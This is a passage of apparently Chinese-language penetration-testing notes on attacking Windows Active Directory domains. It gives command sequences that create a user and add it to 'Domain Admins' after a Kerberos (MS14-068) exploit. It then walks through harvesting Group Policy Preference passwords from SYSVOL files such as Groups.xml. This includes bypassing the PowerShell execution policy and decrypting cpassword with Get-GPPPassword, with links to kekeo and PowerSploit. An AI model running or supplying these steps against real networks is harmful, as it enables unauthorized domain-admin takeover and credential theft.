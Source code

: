 > dir \\dc.xxx.com\c$
>
> net user admin xxxxx@password /add /domain
>
> net group "Domain Admins" admin /add /domain

msf 的模块 ``ms14_048_kerberos_checksum`` 也可以检测

工具：

> https://www.t00ls.net/viewthread.php?tid=28207&from=favorites
>
> https://github.com/gentilkiwi/kekeo

### GPP 漏洞利用

win2008 增加，一般域用户都可访问敏感文件

密码存在 SYSCOL 目录下:

Groups.xml, 这个文件是域管通过 GPP 设置或修改本地密码留下的

> Services\Services.xml,
>
> ScheduledTasks\ScheduledTasks.xml,
>
> Printers\Printers.xml,
>
> Drives\Drives.xml,
>
> DataSources\DataSources.xml

> net use \\\域控(如pc.xx.com) password /user:xxx.com\username 
>
> dir \\\域控\SYSVOL /s /a > sysvol.txt
>
> findstr /i "groups.xml" sysvol.txt

找到 cpassword

解密过程：

> set-executionPolicy bypass
>
> powershell -ep bypass   启动 ps
>
> Import-Module .\GPP.ps1
>
> Get-DecryptedCpassword  xxxxxxxxxxxxxx

脚本link：

> https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

利用 SYSVOL 还原组策略中保存的密码

> https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8SYSVOL%E8%BF%98%E5%8E%9F%E7%BB%84%E7%AD%96%E7%95%A5%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/

